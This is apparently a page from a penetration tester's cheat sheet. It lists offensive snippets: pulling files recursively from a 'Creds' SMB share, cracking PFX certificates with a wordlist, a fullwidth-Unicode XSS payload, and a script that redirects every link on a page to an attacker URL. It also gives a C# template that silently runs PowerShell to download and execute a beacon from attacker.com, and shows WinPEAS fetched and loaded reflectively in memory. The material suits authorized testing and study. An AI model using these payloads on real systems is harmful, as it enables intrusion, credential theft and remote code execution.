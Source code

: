 ```
prompt off
recurse on
cd Creds
mget *
```
### Crack PFX Certificates with [P12tool](https://github.com/Ridter/p12tool)
```
p12tool --cert cert-to-crack.pfx --file /usr/share/wordlists/rockyou.txt
```
### XSS with Fullwidth Unicode Characters
```javascript
＜script＞alert(1)＜/script＞
```
### Replace All Href's with Attacker-Controlled URLs
```javascript
Array.from(document.getElementsByTagName("a")).forEach(function(i) {
  i.href = "https://gotcha.com";
});
```
### .NET Command Execute Template
```csharp
using System;
using System.Diagnostics;

namespace Evil
{
    static class Program
    {
        [STAThread]
        static void Main()
        {
            Process process = new Process();

            process.StartInfo.FileName = "powershell.exe";
            process.StartInfo.Arguments = "-c \"IEX((New-Object Net.Webclient).DownloadString(\'http://attacker.com/beacon.ps1\'))\"";
            process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
            process.Start();
        }
    }
}
```
### Enumerate Services and Versions with CimInstance Command
```powershell
get-ciminstance -classname Win32_Product | select name, version
```
### Execute WinPEAS with PowerShell Reflection Assembly
```powershell
# Get latest release
$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"; $wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```
### Get PowerShell's History File Across PowerShell Sessions
```powershell
(Get-PSReadlineOption).HistorySavePath
# ...\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```